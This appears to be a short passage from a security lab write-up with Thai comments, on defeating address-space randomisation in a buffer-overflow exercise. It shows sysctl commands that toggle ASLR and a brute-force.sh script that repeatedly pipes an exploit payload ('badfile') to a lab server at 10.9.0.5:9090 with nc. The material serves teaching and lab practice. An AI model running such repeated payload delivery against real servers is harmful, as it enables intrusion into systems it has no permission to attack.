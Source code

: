 ```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl -w kernel.randomize_va_space=2  
```

![alt text](image-16.png)

![alt text](image-17.png)

### brute-force.sh
```
#!/bin/bash

SECONDS=0
value=0

while true; do
  value=$(( $value + 1 ))
  duration=$SECONDS
  min=$(($duration / 60))
  sec=$(($duration % 60))
  echo "$min minutes and $sec seconds elapsed."
  echo "The program has been running $value times so far."
  cat badfile | nc 10.9.0.5 9090
done

```
- ใช้ badfile จาก Level-1 attack 
- จะเป็นการ ส่ง payload เดิมให้ server ซ้ำๆ
